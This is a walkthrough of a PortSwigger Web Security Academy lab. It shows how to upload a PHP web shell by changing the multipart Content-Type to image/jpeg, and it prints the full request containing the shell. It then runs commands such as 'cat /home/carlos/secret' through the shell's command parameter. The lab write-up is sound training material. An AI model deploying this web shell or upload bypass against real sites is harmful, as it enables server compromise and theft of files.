



# Web shell upload via Content-Type restriction bypass

## Lab Description :


## Overview :
One way that websites may attempt to validate file uploads is to check that this input-specific Content-Type header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like image/jpeg and image/png.
Problems can arise when the value of this header is implicitly trusted by the server.,if no further validation is performed to check whether the contents of the file actually match the supposed MIME type.

## Solution :
Log in as wiener & we will be presented with a page to update email and also to upload an avatar.

When we upload a .php file with the payload , we get this response stating that the application accepts only .jpeg files.



Let's take a look at the request sent when uploading the file.
```html
POST /my-account/avatar HTTP/1.1
Host: 0a1000bb04122918814bd9d000d400c5.web-security-academy.net
Cookie: session=pFjBEs7PaXo8VlIvWFeyV3Q6z05fpBD4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------11469386721501997801471814291
Content-Length: 523
Origin: https://0a1000bb04122918814bd9d000d400c5.web-security-academy.net
Referer: https://0a1000bb04122918814bd9d000d400c5.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------11469386721501997801471814291
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------11469386721501997801471814291
Content-Disposition: form-data; name="user"

wiener
-----------------------------11469386721501997801471814291
Content-Disposition: form-data; name="csrf"

w96zwxkBLbFkh0aszhexGP4ehAhVB7MN
-----------------------------11469386721501997801471814291--
```
Note that there is a header - Content-Type: application/x-php in the message body & not the one in the header.. Means it tells the server that it is an .php file that is being uploaded.

So let's change the Content-Type: application/x-php to Content-Type: image/jpeg & see what happens.


Now the file is successfully uploaded.

Now we can run comands on the server by using the ?command= parameter. ie - /files/avatars/file.php?command=id



Retreiving the Secret -
To retreive the secret from carlos's home directory , make a GET request to files/avatars/file.php?command=cat /home/carlos/secret

SECRET - ``5RIyXZiyzXF7Q14vLoRKxHWRE5qBWQqg5RIyXZiyzXF7Q14vLoRKxHWRE5qBWQqg``

Submit the key to solve the lab.


#### Visit The Next Page For The Next Level :)
